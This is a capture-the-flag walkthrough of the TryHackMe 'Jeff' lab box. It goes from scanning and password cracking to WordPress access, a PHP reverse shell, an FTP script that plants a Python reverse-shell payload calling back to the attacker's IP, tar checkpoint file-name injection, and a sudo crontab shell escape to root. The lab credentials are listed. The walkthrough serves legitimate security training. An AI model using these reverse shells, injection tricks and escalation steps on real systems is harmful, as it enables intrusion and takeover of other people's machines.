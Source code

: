 In this walkthrough, we'll go over a challenge (hard) level box called ***Jeff*** on [TryHackMe](https://tryhackme.com/room/jeff) 

![Jeff](jeff.png)

Let's start the scanning process with nmap. The IP address would be different when you deploy it:
```bash
nmap -sTV -n -sC -T4 -p- 10.10.238.1 --open
```
Per the nmap result, it looks like ports 22 and 80 are open:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-23 10:00 EDT
Nmap scan report for 10.10.238.1
Host is up (0.33s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7e:43:5f:1e:58:a8:fc:c9:f7:fd:4b:40:0b:83:79:32 (RSA)
|   256 5c:79:92:dd:e9:d1:46:50:70:f0:34:62:26:f0:69:39 (ECDSA)
|_  256 ce:d9:82:2b:69:5f:82:d0:f5:5c:9b:3e:be:76:88:c3 (ED25519)
80/tcp open  http    nginx
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.86 seconds
```

Let's add this to the /etc/hosts file:
```bash
10.10.238.1 jeff.thm
```
![Jeff index](jeff-index-html.png)

We can run dirsearch `dirsearch -u http://jeff.thm -r -f -t 50 -x 302,400,403,500,503`:
![Jeff dirsearch](jeff-dirsearch.png)

We find a zip file called "backup.zip" under "/backups" directory:
![Jeff backups](jeff-backup-zip.png)

The backup file is password protected so we use the following script to crack the password `fcrackzip -v -D -u -p /usr/share/wordlists/rockyou.txt backup.zip`:
![Jeff crackzip](jeff-password-backup-zip.png)

Using the password of "!!Burningbird!!", we can unzip the file and there is a file called "wpadmin.bak" and it has a wordpress password of ***phO#g)C5dhIWZn3BKP***

At this point, we can run a sub-domain enumeration to find a wordpress site with the following wfuzz script `wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --hl 1 --hc 400 -H "Host: FUZZ.jeff.thm" -u http://jeff.thm -t 100`:
![Jeff wfuz](jeff-wfuz.png)

We then add "wordpress.jeff.thm" to "/etc/hosts" file after that we can go to the wordpress site:
![Jeff WP](jeff-wordpress-site.png)

We run cmsmap on the wordpress site to find potential vulnerable plugins and users `python3 cmsmap.py "http://wordpress.jeff.thm" -f W`:

![Jeff WP enum](jeff-wordpress-enum.png)

The user, jeff is found and decided to login to the wordpress site with the below credentials:

Username | Password
----------- | ----------
jeff | phO#g)C5dhIWZn3BKP

With the above credentials, we can login to the wordpress admin console:
![Jeff WP admin](jeff-WP-admin-console.png)

Trying to change the 404.php page will give us an error, in this case we need to use "php_everywhere" plugin and here are the steps:

1. Download "PHP Everywhere" Plugin
2. Install the plugin
3. Add a new page
4. Add your reverse shell in the PHP Everywhere text box:
![Jeff php everywhere](jeff-wordpress-php-everywhere.png)
5. Make sure to refer to the section with `[php_everywhere]`
6. Start a nc listener
7. Hit "Preview":
![Jeff foothold](jeff-initial-foothold.png)

Found credentials:

Source | username | password | db file | ftp file
-------- | -------- | ------------ | -------- | ---------
ftp_backup.php | backupmgr | SuperS1ckP4ssw0rd123! | db_backup/backup.sql | backup.sql

At this point, we need to use the below Python script to access the ftp server
```python
#!/usr/bin/env python3.7

from ftplib import FTP
import io
import os
import fileinput

host="172.20.0.1"
username="backupmgr"
password="SuperS1ckP4ssw0rd123!"

ftp=FTP(host=host)

ftp.login(user=username,passwd=password)
ftp.getwelcome()

ftp.set_pasv(False)
ftp.dir()
ftp.cwd('/files')

payload=io.BytesIO(b'python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.6.172",5556));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
empty=io.BytesIO(b'')

ftp.storlines('STOR rev.sh', payload)
ftp.storlines('STOR --checkpoint=1', empty)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', empty)

ftp.quit()
```

After running `chmod +x ftp.py` and running the file as follwos `./ftp.py` we receive a shell back as backupmgr:
![Jeff backupmgr](jeff-backupmgr.png)

After this second shell, we find systools in "/opt" folder, message.txt has the below note in it:
![Jeff message](jeff-message-txt.png)

We then delete message.txt and link "/var/backups/jeff.bak" to "/opt/systool/message.txt" and run systools by entering 2 and 3
![Jeff ln](jeff-ln-jeff-bak.png)
![Jeff systool](jeff-systool.png)

Let's login as jeff with su command and read the contents of user.txt (convert to MD5):
![Jeff user](jeff-jeff-user.png)

I try to run `sudo -l` and it may give us an error that it only exists in "/usr/bin/sudo" and use the absolute path with the password of ***123-My-N4M3-1z-J3ff-123***
![Jeff sudo -l](jeff-sudo-l.png)

We are able to ssh into the server with the following creds:

Username | Password
----------- | --------
jeff | 123-My-N4M3-1z-J3ff-123

After running `/usr/bin/sudo /usr/bin/crontab -e`, then press escape and type `:!/bin/sh` which will give you a root shell:
![Jeff root](jeff-root-txt.png)

Finally, we have done it, we can grab the root file which has the root flag.

I hope you enjoyed this walkthrough.

[<= Go Back to TryHackMe Walkthroughs](TryHackMeWalkthroughs.md)

[<= Go Back to Main Menu](index.md)
